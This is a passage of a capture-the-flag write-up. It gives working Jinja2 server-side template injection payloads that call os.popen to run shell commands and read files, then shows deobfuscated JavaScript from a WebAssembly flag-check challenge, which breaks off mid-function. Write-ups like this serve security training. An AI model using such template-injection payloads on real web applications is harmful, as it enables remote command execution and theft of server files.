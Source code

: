 Intended Solution:
```{{cycler.next.__globals__.os.popen('nl *')|max}}```


Best Solution (You can use nl instead of cat here):
```python
// 47 character solution
{{lipsum.__globals__.os.popen('cat *').read()}}
```

nl takes the lines of the file in the stdin and outputs the lines with their respective number in the stdout.

### Honksay (MapleCTF)

Some Assembly Required (Deobfuscation and wasm challenge)
We used jsnice.org for deobfuscating… Highly recommended.
Deobfuscated js:
```javascript
'use strict';
const _0x402c = ["value", "2wfTpTR", "instantiate", "275341bEPcme", "innerHTML", "1195047NznhZg", "1qfevql", "input", "1699808QuoWhA", "Correct!", "check_flag", "Incorrect!", "./JIFxzHyW8W", "23SMpAuA", "802698XOMSrr", "charCodeAt", "474547vVoGDO", "getElementById", "instance", "copy_char", "43591XxcWUl", "504454llVtzW", "arrayBuffer", "2NIQmVj", "result"];
const _0x4e0e = function(url, whensCollection) {
  /** @type {number} */
  url = url - 470;
  let _0x402c6f = _0x402c[url];
  return _0x402c6f;
};
(function(data, oldPassword) {
  const toMonths = _0x4e0e;
  for (; !![];) {
	try {
  	const userPsd = -parseInt(toMonths(491)) + parseInt(toMonths(493)) + -parseInt(toMonths(475)) * -parseInt(toMonths(473)) + -parseInt(toMonths(482)) * -parseInt(toMonths(483)) + -parseInt(toMonths(478)) * parseInt(toMonths(480)) + parseInt(toMonths(472)) * parseInt(toMonths(490)) + -parseInt(toMonths(485));
  	if (userPsd === oldPassword) {
    	break;
  	} else {
    	data["push"](data["shift"]());
  	}
	} catch (_0x41d31a) {
  	data["push"](data["shift"]());
	}
  }
})(_0x402c, 627907);
let exports;
(async() => {
  const findMiddlePosition = _0x4e0e;
  let leftBranch = await fetch(findMiddlePosition(489));
  let rightBranch = await WebAssembly[findMiddlePosition(479)](await leftBranch[findMiddlePosition(474)]());
  let module = rightBranch[findMiddlePosition(470)];
  exports = module["exports"];
})();
/**
 * @return {undefined}
 */
function onButtonPress() {
  const navigatePop = _0x4e0e;
  let params = document["getElementById"](navigatePop(484))[navigatePop(477)];
  for (let i = 0; i < params["length"]; i++) {
	exports[navigatePop(471)](params[navigatePop(492)](i), i);
```